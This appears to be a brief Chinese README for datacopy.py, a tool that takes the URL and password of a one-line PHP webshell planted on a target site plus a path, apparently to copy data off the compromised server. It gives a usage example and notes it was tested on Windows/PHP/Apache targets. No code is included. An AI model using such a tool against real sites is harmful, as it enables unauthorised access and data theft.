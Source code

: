datacopy：

# 用法：
datacopy.py    一句话shell地址    密码     路径（默认网站根目录）

datacopy.py    http://www.exmaple.com/1.php    password     c://path

目前测试过的环境是：目标win，php，apache，编码gbk，本地win
以后会逐渐更新其他环境
